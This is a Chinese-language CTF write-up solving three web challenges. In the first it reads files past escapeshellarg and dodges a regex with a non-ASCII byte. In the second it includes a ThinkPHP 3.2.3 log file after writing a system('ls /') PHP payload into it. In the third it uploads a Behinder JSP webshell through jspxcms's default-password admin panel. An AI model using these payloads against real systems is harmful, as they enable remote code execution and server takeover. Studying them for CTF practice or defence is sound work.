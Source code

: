 这题一开始对传入的参数进行了escapeshellarg处理，造成不了拼接和多语句执行。但是可以查文件内容。

一开始去查了一下 /etc/psswd, 可以正常读。然后就没啥思路了，后来给了提示，说管理员访问过，就去查了一下日志文件的内容，发现：

[![](https://p5.ssl.qhimg.com/t01966d176b72282e22.png)](https://p5.ssl.qhimg.com/t01966d176b72282e22.png)

所以直接去cat这个文件就好了，现在的问题就是这个正则匹配flag，怎么绕过去。一开始用数组绕，发现不行。后面去翻了翻escapeshellarg()函数文档：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01669022df98f78773.png)

会忽视非ASCII 字符，所以这个地方就可以绕过正则匹配了。

直接`?cmd=this_is_final_fla%8cg_e2a457126032b42d.php` ，然后F12拿到源代码

## easythinkphp

[![](https://p1.ssl.qhimg.com/t01e8f7b5bc26c0207d.png)](https://p1.ssl.qhimg.com/t01e8f7b5bc26c0207d.png)

看到版本是V3.2.3，就试了一下一些注入之类的洞发现都没打通，然后想起来最近tp3.2.3报了一个结合日志包含的，具体参考了这篇文章：`https://mp.weixin.qq.com/s/_4IZe-aZ_3O2PmdQrVbpdQ` 照着复现了一遍：

先写入我们的恶意代码到日志：

`index.php?m=--&gt;&lt;?=system('ls /');?&gt;`

然后包含我们的日志：`index.php?m=Home&amp;c=Index&amp;a=index&amp;value[_filename]=.\Application\Runtime\Logs\Home\21_08_01.log`

注意这里的日志时间。然后查出来根目录下存在flag,按照同样的步骤，写恶意代码到日志，然后包含拿flag。

### <a class="reference-link" name="jspxcms"></a>jspxcms

搜到两篇文章

[https://www.freebuf.com/articles/others-articles/229928.html](https://www.freebuf.com/articles/others-articles/229928.html)

[https://lockcy.github.io/2019/10/18/%E5%A4%8D%E7%8E%B0jspxcms%E8%A7%A3%E5%8E%8Bgetshell%E6%BC%8F%E6%B4%9E/](https://lockcy.github.io/2019/10/18/%E5%A4%8D%E7%8E%B0jspxcms%E8%A7%A3%E5%8E%8Bgetshell%E6%BC%8F%E6%B4%9E/)

网页最下面有登录后台的链接，用户名admin，密码为空登进去之后，上传文件

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01e1933f22fbe30e13.png)

先用冰蝎自带的shell.jsp，打包成war文件，然后压缩成zip压缩包

```
jar cf shell.war *
```

上传文件之后选择zip解压

[![](https://p0.ssl.qhimg.com/t018dc617687ebf6747.png)](https://p0.ssl.qhimg.com/t018dc617687ebf6747.png)
